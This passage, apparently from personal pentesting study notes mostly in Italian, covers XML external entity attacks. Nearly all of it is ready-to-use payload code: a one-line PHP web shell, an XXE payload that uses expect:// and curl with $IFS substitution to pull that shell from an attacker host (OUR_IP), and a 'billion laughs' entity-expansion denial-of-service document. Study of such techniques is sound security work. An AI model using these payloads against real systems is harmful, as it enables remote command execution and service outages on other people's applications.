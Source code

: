```shell
base64 -d index.php.b64 > index.php
```

Chiaramente questo trucco funziona solo con applicazioni PHP!

Possiamo anche tentare una reverse shell, prima creandola ad hoc

```shell
$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
$ sudo python3 -m http.server 80

```

e poi inserendola nel doctype con OUR_IP corretto

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>

```

We replaced all spaces in the above XML code with $IFS, to avoid breaking the XML syntax. Furthermore, many other characters like |, >, and { may break the code, so we should avoid using them.

ESEMPIO DI DOS

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>

```
